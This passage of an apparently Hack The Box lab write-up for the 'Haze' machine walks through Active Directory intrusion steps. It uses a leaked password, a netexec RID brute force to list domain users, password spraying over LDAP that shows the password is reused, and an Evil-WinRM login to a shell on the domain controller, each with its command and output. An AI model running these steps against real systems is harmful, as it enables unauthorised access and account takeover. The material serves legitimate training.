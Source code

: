 | Username    | Password              |
| ----------- | --------------------- |
| paul.taylor | Ld@p_Auth_Sp1unk@2k24 |

## RID Brute Force

With the option to read `IPC$` we performed a quick `RID Brute Force` and extracted more `usernames` out of it.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ netexec smb 10.129.135.234 -u 'paul.taylor' -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute | grep 'SidTypeUser' | awk '{print $6}'  | awk -F '\\' '{print $2}'
Administrator
Guest
krbtgt
DC01$
paul.taylor
mark.adams
edward.martin
alexander.green
Haze-IT-Backup$
```

## Foothold

### Privilege Escalation to Mark.Adams
#### Password Reuse

With the `usernames` and the `password` put into `custom wordlists`, we looked for `password reuse` and indeed the `password` of `Paul.Taylor` was `reused` on `Mark.Adams` which allowed us to login on the box using `Evil-WinRM`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/files]
└─$ netexec ldap 10.129.135.234 -u usernames.txt -p passwords.txt --continue-on-success
SMB         10.129.135.234  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False)
LDAP        10.129.135.234  389    DC01             [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.135.234  389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.135.234  389    DC01             [-] haze.htb\edward.martin:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.135.234  389    DC01             [-] haze.htb\alexander.green:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.135.234  389    DC01             [-] haze.htb\Haze-IT-Backup$:Ld@p_Auth_Sp1unk@2k24
```

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.135.234 -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24'
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\mark.adams\Documents>
```
